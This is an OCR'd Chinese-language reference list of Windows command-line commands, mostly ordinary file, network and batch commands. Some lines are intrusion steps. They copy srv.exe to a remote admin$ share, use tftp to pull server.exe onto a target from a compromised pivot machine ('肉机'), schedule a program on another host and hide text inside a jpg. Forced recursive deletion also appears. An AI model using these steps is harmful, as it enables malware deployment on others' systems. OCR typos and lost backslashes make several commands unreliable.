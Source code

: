     del -F 文件名 加-F参数后就可删除只读文件,/AR、/AH、/AS、/AA分别表示删除只读、隐藏、系统、存档文件，
           /A-R、/A-H、/A-S、/A-A表示删除除只读、隐藏、系统、存档以外的文件。例如“DEL/AR *.*”表示删除当前目录下所有只读文件，“DEL/A-S *.*”表示删除当前目录下除系统文件以外的所有文件
    del /S /Q 目录 或用：rmdir /s /Q 目录 /S删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同） 
    move 盘符路径要移动的文件名　存放移动文件的路径移动后文件名 移动文件,用参数/y将取消确认移动目录存在相同文件的提示就直接覆盖 
    fc one.txt two.txt > 3st.txt 对比二个文件并把不同之处输出到3st.txt文件中，"> "和"> >" 是重定向命令 
    at id号 开启已注册的某个计划任务 
    at /delete 停止所有计划任务，用参数/yes则不需要确认就直接停止 
    at id号 /delete 停止某个已注册的计划任务 
    at 查看所有的计划任务 
    at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机 
    finger username @host 查看最近有哪些用户登陆 
    telnet ip 端口 远和登陆服务器,默认端口为23 
    open ip 连接到IP（属telnet登陆后的命令） 
    telnet 在本机上直接键入telnet 将进入本机的telnet 
    copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件 
    copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下 
    cppy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件 
    copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C： 
    xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件 
    tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，
           如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送 
    tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机 
    ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时) 
    route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface 
    arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息 
    start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令 
    mem 查看cpu使用情况 
    attrib 文件名(目录名) 查看某文件（目录）的属性 
    attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用＋则是添加为某属性 
    dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间 
    date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间 
    set 指定环境变量名称=要指派给变量的字符 设置环境变量 
    set 显示当前所有的环境变量 
    set p(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量 
    pause 暂停批处理程序，并显示出：请按任意键继续.... 
    if 在批处理程序中执行条件处理（更多说明见if命令及变量） 
    goto 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签） 
    call 路径批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?） 
    for 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量） 
    echo on或off 打开或关闭echo，仅用echo不加参数则显示当前echo设置 
    echo 信息 在屏幕上显示出信息 
    echo 信息 >> pass.txt 将"信息"保存到pass.txt文件中 
    findstr "Hello" aa.txt 在aa.txt文件中寻找字符串hello 
    find 文件名 查找某文件 
    title 标题名字 更改CMD窗口标题名字 
    color 颜色值 设置cmd控制台前景和背景颜色；0＝黑、1＝蓝、2＝绿、3＝浅绿、4＝红、5＝紫、6＝黄、7=白、8=灰、9=淡蓝、A＝淡绿、B=淡浅绿、C=淡红、D=淡紫、E=淡黄、F=亮白 
    prompt 名称 更改cmd.exe的显示的命令提示符(把C:、D:统一改为：EntSky )
    
